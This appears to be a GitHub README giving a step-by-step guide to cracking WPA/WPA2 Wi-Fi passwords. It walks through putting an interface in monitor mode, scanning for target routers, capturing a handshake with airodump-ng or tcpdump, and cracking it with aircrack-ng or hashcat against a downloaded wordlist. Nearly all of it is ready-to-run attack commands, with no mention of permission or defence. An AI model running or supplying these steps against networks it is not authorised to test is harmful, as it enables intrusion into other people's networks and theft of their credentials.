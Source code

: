 There are four steps to crack a WPA/WPA2 Wi-Fi network.  

**[(1) Monitor Mode ](#monitor-mode)**<br>
**[(2) Target Router](#target-router)**<br>
**[(3) Capture Handshake](#capture-handshake)**<br>
**[(4) Crack Password](#crack-password)**<br>



For an alternative guide see [brannondorsey's](https://github.com/brannondorsey/wifi-cracking/blob/master/README.md).

## (1) Monitor Mode 
[Monitor mode](https://en.wikipedia.org/wiki/Monitor_mode) allows us to monitor traffic from networks which we haven't connected to

List monitor mode compliant interfaces

```
airmon-ng
```

Place the interface in monitor mode

```
airmon-ng start wlan0
```

## (2) Target Router
Using monitor mode we listen for nearby wireless routers.  We detail airodump-ng and airport (only one needed).

Make note of your target router's `channel`, `bssid`, and `interface`.

### * Airodump-ng (linux)
Listen to nearby routers

```
airodump-ng wlan0mon
```


### * Airport (Mac OSX)

"Install" Airport utility

```
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```

Listen to nearby routers

```
sudo airport -s
```

## (3) Capture Handshake
We monitor the router network and wait until we capture a successful handshake.  We detail airodump-ng and wireshark (only one needed).

If you've used airodump-ng above continue using airodump-ng below.  Otherwise follow the wireshark section.

### * Airodump-ng
Replace `-c` and `-bssid` values accordingly

Capture beacon frames

```
airodump-ng -c 3 --bssid FF:FF:FF:FF:FF:FF -w capture wlan0mon
```

### * Wireshark
Replace `BSSID`, `IFACE`, and `CHANNEL` values accordingly

Disassociate airport

```sudo airport -z```

Set the channel

```sudo airport -c$CHANNEL```

Capture beacon frames

```sudo tcpdump "type mgt subtype beacon and ether src $BSSID" -I -c 1 -i $IFACE -w beacon.cap```

Wait for handshakes

```sudo tcpdump "ether proto 0x888e and ether host $BSSID" -I -U -vvv -i $IFACE -w handshake.cap```

Merge captured files 

```mergecap -a -F pcap -w capture.cap beacon.cap handshake.cap```

upload both files and images (#todo)

## (4) Crack Password
We've capture a successful handshake.  It's time to crack the password that would give us said successful handshake connection.  We detail aircrack-ng and hashcat (only one needed).

### * Wordlist
For cracking the password we'll need a wordlist.  I'm using a wordlist from [berzerk0's Probable Wordlists](https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length)

```wget https://raw.githubusercontent.com/berzerk0/Probable-Wordlists/master/Real-Passwords/WPA-Length/Top204Thousand-WPA-probable-v2.txt```

### * Aircrack-ng
```
aircrack-ng -a2 -b FF:FF:FF:FF:FF:FF -w Top204Thousand-WPA-probable-v2.txt capture.cap
```

### * Hashcat
If you have a .cap file you'll need [hashcat-utils](https://github.com/hashcat/hashcat-utils/releases) to transform the .cap to .hccapx.

```
cap2hccapx capture.cap capture.hccapx
```


With your .hccapx you're ready to crack with hashcat.  Run [hashcat](https://hashcat.net/hashcat/).

```
$ ./hashcat64.exe -m 2500 capture.hccapx Top204Thousand-WPA-probable-v2.txt
```

upload both files and images (#todo)